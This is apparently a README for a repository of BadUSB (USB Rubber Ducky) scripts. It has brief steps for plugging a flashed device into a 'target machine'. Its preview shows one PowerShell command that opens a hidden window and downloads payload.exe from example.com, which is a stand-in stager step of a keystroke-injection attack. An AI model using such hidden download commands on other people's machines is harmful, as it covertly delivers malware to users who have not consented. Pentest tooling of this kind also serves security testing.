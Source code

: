 # BadUSB Scripts

![BadUSB Banner](assets/banner.png)

This repository contains BadUSB scripts for various use cases. Use them responsibly.

## Features
- Various pre-made scripts for USB Rubber Ducky
- Easy to customize
- Compatible with standard BadUSB devices

## Disclaimer
The files and scripts provided here are shared as-is, without any guarantees. The author cannot be held responsible for any issues or consequences arising from their use. Please use them responsibly and in compliance with applicable laws.

---

### How to Use
1. Flash the script to your BadUSB device.
2. Plug the device into a target machine.
3. Watch it execute the payload.

---

## Preview
Here's an example of a payload in action:
```powershell
powershell -WindowStyle Hidden -Command "Invoke-WebRequest -Uri http://example.com -OutFile payload.exe"
